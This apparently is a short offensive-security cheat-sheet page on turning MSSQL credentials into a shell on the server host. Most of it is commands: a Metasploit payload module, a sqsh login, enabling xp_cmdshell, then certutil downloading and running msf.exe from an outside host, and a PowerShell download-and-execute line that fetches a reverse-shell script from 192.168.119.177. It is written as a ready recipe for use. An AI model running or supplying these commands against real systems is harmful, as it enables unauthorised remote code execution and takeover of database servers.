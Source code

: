 # Authenticated MSSQL Shell

Once we have credentials to the MSSQL Server we are able to get a shell on the machine through either metasploit or sqsh.&#x20;

Metasploit:

```
use windows/mssql/mssql_payload
set User
set PASSWORD
```

SQSH:

```
sqsh -S victim-ip -U sa -P password

exec sp_configure 'xp_cmdshell', 1
go
EXEC SP_CONFIGURE 'xp_cmdshell', 1 
reconfigure 
go
xp_cmdshell whoami
go





output 


weoweo\wewo


you could also alternatively use either powershell toget a reverse shell or our own.

xp_cmdshell "certutil -urlcache -f http://myip:myport/msf.exe msf.exe" "
go
then
xp_cmdshell 'cmd /c msf.exe'
go

or 

xp_cmdshell "powershell IEX(New-Object Net.webclient).downloadString('http://192.168.119.177/Invoke-PowerShellTcp.ps1')"
go

creds to my friend adam :)

```

<details>

<summary>Examples of MSSQL Shell </summary>

[https://app.gitbook.com/s/IXE4S9y1bygoobC2q1Bz/exploitation](https://app.gitbook.com/s/IXE4S9y1bygoobC2q1Bz/exploitation) (MEATHEAD)

</details>
